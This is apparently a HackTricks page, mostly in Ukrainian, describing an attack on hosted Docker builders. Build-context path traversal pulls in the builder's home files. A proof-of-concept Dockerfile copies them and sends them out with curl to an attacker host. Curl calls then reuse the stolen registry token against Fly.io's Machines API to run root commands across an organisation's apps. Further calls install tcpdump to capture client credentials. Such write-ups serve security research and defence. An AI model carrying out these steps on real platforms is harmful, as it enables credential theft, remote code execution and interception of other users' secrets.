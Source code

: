 # Зловживання Docker Build Context у Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Якщо платформа CI/CD або hosted builder дозволяє контриб’юторам вказувати шлях Docker build context та шлях до Dockerfile, часто можна встановити context на батьківський каталог (наприклад, "..") і зробити файли хоста частиною build context. Тоді Dockerfile, контрольований нападником, може використовувати COPY та exfiltrate секрети, знайдені в домашньому каталозі користувача билдера (наприклад, ~/.docker/config.json). Вкрадені registry tokens також можуть працювати проти control-plane APIs провайдера, дозволяючи org-wide RCE.

## Attack surface

Багато hosted builder/registry сервісів роблять приблизно таке під час збірки образів, наданих користувачами:
- Читають конфіг репозиторію, який містить:
- build context path (відправляється до Docker daemon)
- Dockerfile path відносно цього context
- Копіюють вказаний каталог build context і Dockerfile до Docker daemon
- Збирають образ і запускають його як hosted service

Якщо платформа не канонізує і не обмежує build context, користувач може встановити його в локацію за межами репозиторію (path traversal), через що будь-які файли хоста, доступні для читання користувачу билдера, стануть частиною build context і доступні для COPY у Dockerfile.

Практичні обмеження, що часто спостерігаються:
- Dockerfile повинен знаходитися в межах обраного context path і його шлях має бути відомий заздалегідь.
- У білдер-користувача повинен бути доступ на читання до файлів, включених у context; спеціальні device файли можуть порушити копіювання.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Примітки:
- Використання ".." часто вказує на домашню директорію користувача builder (наприклад, /home/builder), яка зазвичай містить чутливі файли.
- Помістіть ваш Dockerfile у директорію з іменем repo (наприклад, repo "test" → test/Dockerfile), щоб він залишався в межах розгорнутого батьківського контексту.

## PoC: Dockerfile для збирання та ексфільтрації контексту хоста
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Цілі, які зазвичай відновлюються з $HOME:
- ~/.docker/config.json (облікові дані/токени реєстру)
- Інші кеші та конфігурації cloud/CLI (наприклад, ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Порада: Навіть якщо в репозиторії є .dockerignore, вразливий механізм вибору контексту на стороні платформи все одно визначає, що надсилається демону. Якщо платформа копіює обраний шлях до демона перед оцінкою repo’s .dockerignore, файли хоста все ще можуть бути скомпрометовані.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Деякі платформи видають один bearer token, який можна використовувати як для container registry, так і для control-plane API. Якщо ви exfiltrate registry token, спробуйте застосувати його до provider API.

Приклади викликів API до Fly.io Machines API з використанням вкраденого токена з ~/.docker/config.json:

Перерахувати додатки в організації:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Запустити команду як root у будь-якій машині додатку:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Результат: на рівні організації remote code execution у всіх hosted apps, де token має достатні привілеї.

## Викрадення Secret з скомпрометованих hosted services

Отримавши exec/RCE на hosted серверах, ви можете збирати client-supplied secrets (API keys, tokens) або ініціювати prompt-injection атаки. Наприклад: встановіть tcpdump і захопіть HTTP-трафік на port 8080, щоб витягти inbound credentials.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Перехоплені запити часто містять клієнтські облікові дані в заголовках, у тілі або в параметрах запиту.

## Посилання

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
